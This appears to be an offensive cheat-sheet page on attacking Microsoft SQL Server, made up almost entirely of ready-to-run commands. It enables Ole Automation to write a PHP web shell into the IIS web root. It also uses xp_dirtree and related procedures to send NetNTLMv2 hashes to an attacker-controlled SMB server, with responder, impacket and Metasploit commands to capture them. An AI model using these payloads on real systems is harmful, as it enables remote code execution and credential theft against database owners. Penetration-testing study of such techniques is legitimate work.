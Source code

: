 ## Write files

```sql
# NOTE: we need to enable Ole Automation Procedures
sp_configure 'show advanced options', 1
RECONFIGURE
sp_configure 'Ole Automation Procedures', 1
RECONFIGURE

# Create a File
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
```

## Steal NetNTLMv2 hash (xp\_dirtree)

{% code overflow="wrap" fullWidth="true" %}
```bash
https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack
# Steal NetNTLM hash / Relay attack
# You should start a SMB server to capture the hash used in the authentication (impacket-smbserver or responder for example).

xp_dirtree '\\<attacker_IP>\any\thing'
exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
EXEC master..xp_subdirs '\\<attacker_IP>\anything\'
EXEC master..xp_fileexist '\\<attacker_IP>\anything\'

# Capture hash
sudo responder -I tun0
sudo impacket-smbserver share ./ -smb2support
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer

SQL> xp_dirtree \\$IP\$share\something
# We check if we can list files
SQL> xp_dirtree 'C:\Windows\system32\spool\drivers\'
# Another link xp_dirtree sql server attack exploit
https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478
# We stand up SMB server:
sudo smbserver.py share myshare -smb2support
# Execute command 
SQL> xp_dirtree '\\$LOCAL_IP\myshare',1,1
```
{% endcode %}
